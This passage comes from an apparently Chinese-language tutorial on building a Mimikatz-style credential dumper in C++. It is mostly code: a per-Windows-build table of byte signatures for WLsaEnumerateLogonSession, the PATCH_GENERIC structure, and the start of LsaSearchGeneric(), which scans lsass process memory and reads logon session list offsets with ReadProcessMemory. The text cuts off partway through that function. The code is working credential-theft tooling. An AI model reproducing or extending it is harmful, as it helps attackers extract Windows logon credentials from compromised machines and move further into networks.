```c++
BYTE PTRN_WN11_WLsaEnumerateLogonSession[] = { 0x45, 0x89, 0x34, 0x24, 0x4c, 0x8b, 0xff, 0x8b, 0xf3, 0x45, 0x85, 0xc0, 0x74 };
PATCH_GENERIC LsaSrvReferences[] = {
	{WIN_BUILD_XP,		{sizeof(PTRN_WIN5_WLsaEnumerateLogonSession),	PTRN_WIN5_WLsaEnumerateLogonSession},	{0, NULL}, {-4,   0}},
	{WIN_BUILD_2K3,		{sizeof(PTRN_WIN5_WLsaEnumerateLogonSession),	PTRN_WIN5_WLsaEnumerateLogonSession},	{0, NULL}, {-4, -45}},
	{WIN_BUILD_VISTA,	{sizeof(PTRN_WN60_WLsaEnumerateLogonSession),	PTRN_WN60_WLsaEnumerateLogonSession},	{0, NULL}, {21,  -4}},
	{WIN_BUILD_7,		{sizeof(PTRN_WN61_WLsaEnumerateLogonSession),	PTRN_WN61_WLsaEnumerateLogonSession},	{0, NULL}, {19,  -4}},
	{WIN_BUILD_8,		{sizeof(PTRN_WN6x_WLsaEnumerateLogonSession),	PTRN_WN6x_WLsaEnumerateLogonSession},	{0, NULL}, {16,  -4}},
	{WIN_BUILD_BLUE,	{sizeof(PTRN_WN63_WLsaEnumerateLogonSession),	PTRN_WN63_WLsaEnumerateLogonSession},	{0, NULL}, {36,  -6}},
	{WIN_BUILD_10_1507,	{sizeof(PTRN_WN6x_WLsaEnumerateLogonSession),	PTRN_WN6x_WLsaEnumerateLogonSession},	{0, NULL}, {16,  -4}},
	{WIN_BUILD_10_1703,	{sizeof(PTRN_WN1703_WLsaEnumerateLogonSession),	PTRN_WN1703_WLsaEnumerateLogonSession},	{0, NULL}, {23,  -4}},
	{WIN_BUILD_10_1803,	{sizeof(PTRN_WN1803_WLsaEnumerateLogonSession),	PTRN_WN1803_WLsaEnumerateLogonSession},	{0, NULL}, {23,  -4}},
	{WIN_BUILD_10_1903,	{sizeof(PTRN_WN6x_WLsaEnumerateLogonSession),	PTRN_WN6x_WLsaEnumerateLogonSession},	{0, NULL}, {23,  -4}},
	{WIN_BUILD_2022,	{sizeof(PTRN_WN11_WLsaEnumerateLogonSession),	PTRN_WN11_WLsaEnumerateLogonSession},	{0, NULL}, {24,  -4}},
};
```

数组中的每个成员都是一个 `PATCH_GENERIC` 结构体，用于保存特征码的匹配规则，其结构定义如下。

```c++
typedef struct _PATCH_GENERIC {
	DWORD MinBuildNumber;     // 系统版本号
	PATCH_PATTERN Search;     // 包含特征码
	PATCH_PATTERN Patch;
	PATCH_OFFSETS Offsets;    // 保存 LogonSessionList 和 LogonSessionListCount 偏移量值的四个字节的偏移量
} PATCH_GENERIC, * PPATCH_GENERIC;
```

下面开始编写 `LsaSearchGeneric()` 函数，定义如下。

```c++
BOOL LsaSearchGeneric(PLSA_CONTEXT cLsass, PLSA_LIB pLib, PPATCH_GENERIC genericReferences, SIZE_T cbReferences, PVOID* genericPtr, PVOID* genericPtr1, PLONG genericOffset)
{
	BOOL status = FALSE;
	MEMORY_SEARCH sMemory = { {pLib->Informations.DllBase.address, pLib->Informations.SizeOfImage}, NULL };
	PPATCH_GENERIC currentReference;
	LONG offset;
	MEMORY_ADDRESS lsassMemory;

	if (currentReference = GetGenericFromBuild(genericReferences, cbReferences, cLsass->osContext.BuildNumber))
	{
		if (MemorySearch(cLsass->hProcess, currentReference->Search.Pattern, currentReference->Search.Length, &sMemory))
		{
			lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off0;
			if (status = ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset, sizeof(LONG), NULL))
			{
				*genericPtr = ((PBYTE)lsassMemory.address + sizeof(LONG) + offset);
			}

```